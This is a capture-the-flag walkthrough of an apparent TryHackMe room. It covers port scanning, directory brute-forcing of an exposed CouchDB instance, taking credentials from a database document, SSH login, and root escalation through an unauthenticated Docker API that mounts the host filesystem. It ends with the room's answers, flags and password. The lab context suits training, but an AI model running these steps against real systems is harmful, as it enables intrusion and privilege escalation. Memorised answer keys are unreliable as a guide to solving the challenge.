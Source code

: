 ```yaml
---
Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.
---
```


### rustscan

> found port 22, 5984

### feroxbuster

```
feroxbuster --url http://10.10.26.128:5984/ -w /usr/share/wordlists/dirb/common.txt -t 60 -C 404,403
```

> found secret, _stats, _logs, _utils and more with status 200

`curl -X GET http://127.0.0.1:5984/_all_dbs` ==found in 10.10.26.128:5984/_utils/docs/intro/tour.html==

> http://10.10.26.128:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7 -> atena:t4qfzcc4qN##

### ssh

```
ssh atena@10.10.26.128 
```

### history

```
netstat -antup
```
```
cat ~/.bash_history
```

> docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

### priv esc

> There is docker running in this host. Lets run the docker

[docker](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising)

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

```
find . -name root.txt 2>/dev/null
```

```
cat mnt/root/root.txt
```

- Scan the machine. How many ports are open?*2*
- What is the database management system installed on the server?*CouchDB*
- What port is the database management system running on?*5984*
- What is the version of the management system installed on the server?*1.6.1*
- What is the path for the web administration tool for this database management system?*_utils*
- What is the path to list all databases in the web browser of the database management system?*_all_dbs*
- What are the credentials found in the web administration tool?*atena:t4qfzcc4qN##*
- Compromise the machine and locate user.txt*THM{1ns3cure_couchdb}*
- Escalate privileges and obtain root.txt*THM{RCE_us1ng_Docker_API}*
